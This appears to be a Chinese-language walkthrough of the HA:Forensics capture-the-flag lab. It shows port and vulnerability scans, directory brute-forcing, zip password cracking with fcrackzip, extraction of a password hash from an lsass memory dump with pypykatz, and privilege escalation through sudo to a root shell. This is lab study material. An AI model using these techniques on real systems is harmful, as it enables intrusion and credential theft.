

## 端口扫描

```bash
┌──(kali㉿kali)-[~/workspace]
└─$ sudo nmap -sT --min-rate 9999 -p- 10.10.10.34     
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-13 04:23 EDT
Nmap scan report for 10.10.10.34
Host is up (0.00075s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 00:0C:29:F0:06:D9 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 9.77 seconds
                                                                                                                                                                                           
┌──(kali㉿kali)-[~/workspace]
└─$ sudo nmap -sT -sCV -O -p 22,80 10.10.10.34   
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-13 04:24 EDT
Nmap scan report for 10.10.10.34
Host is up (0.00054s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e4:53:67:0b:a4:0b:55:cd:23:7f:d1:07:bf:99:c2:44 (RSA)
|   256 04:76:53:52:aa:63:f9:05:89:a8:9b:2d:ef:61:fa:e0 (ECDSA)
|_  256 28:84:37:14:8a:25:8e:53:c2:6b:cc:6f:04:77:fd:da (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: HA:Forensics
|_http-server-header: Apache/2.4.29 (Ubuntu)
MAC Address: 00:0C:29:F0:06:D9 (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.20 seconds
                                                                                                                                                                                           
┌──(kali㉿kali)-[~/workspace]
└─$ sudo nmap -sT --script vuln -p 22,80 10.10.10.34
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-13 04:26 EDT
Pre-scan script results:
| broadcast-avahi-dos: 
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|_  Hosts are all up (not vulnerable).
Nmap scan report for 10.10.10.34
Host is up (0.00075s latency).

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
| http-internal-ip-disclosure: 
|_  Internal IP Leaked: 127.0.1.1
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-enum: 
|   /images/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
|_  /style/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
MAC Address: 00:0C:29:F0:06:D9 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 57.27 seconds

```
## web渗透


根据题目意思取证，看一下图片信息，得到一个莫名的flag


这是第一个flag是吧

扫描目录得到几个存了style和图片的站点
```bash
┌──(kali㉿kali)-[~/workspace]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.34/  -q -t 100 -x txt,html,rar,zip,sql
/.html                (Status: 403) [Size: 276]
/images               (Status: 301) [Size: 311] [--> http://10.10.10.34/images/]
/index.html           (Status: 200) [Size: 1690]
/tips.txt             (Status: 200) [Size: 19]
/style                (Status: 301) [Size: 310] [--> http://10.10.10.34/style/]
/.html                (Status: 403) [Size: 276]

```

得到一个压缩包和目录

下载了压缩包需要密码
而有有一对公私钥

pgp的加密，去解密一下得到如下信息

去kali爆破吧 
```bash                         
┌──(kali㉿kali)-[~/workspace]
└─$ sudo fcrackzip -D -p pass.txt flag.zip 
possible pw found: for007 ()
```


接下来去使用`pypykatz`解析压缩包中的另一个文件
pypykatz lsa -k ~/workspace minidump lsass.DMP 

可以发现用户jasoos的用户名及密码hash


在线解密得到了密码

## ssh连接+提权

连接后ftp登录另一台主机
找到文件saboot.001
使用autopsy分析
得到flag3

还有下一条提示

疑似base64
```bash
┌──(kali㉿kali)-[~/workspace]
└─$ echo 'amVlbmFsaWlzYWdvb2RnaXJs'|base64 -d                                   
jeenaliisagoodgirl 
```

```bash
jasoos@ubuntu:~$ su root
Password: 
su: Authentication failure
jasoos@ubuntu:~$ su forensic
Password: 
forensic@ubuntu:/home/jasoos$ sudo -l
[sudo] password for forensic: 
Matching Defaults entries for forensic on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User forensic may run the following commands on ubuntu:
    (ALL : ALL) ALL
forensic@ubuntu:/home/jasoos$ sudo /bin/bash
root@ubuntu:/home/jasoos# 
```
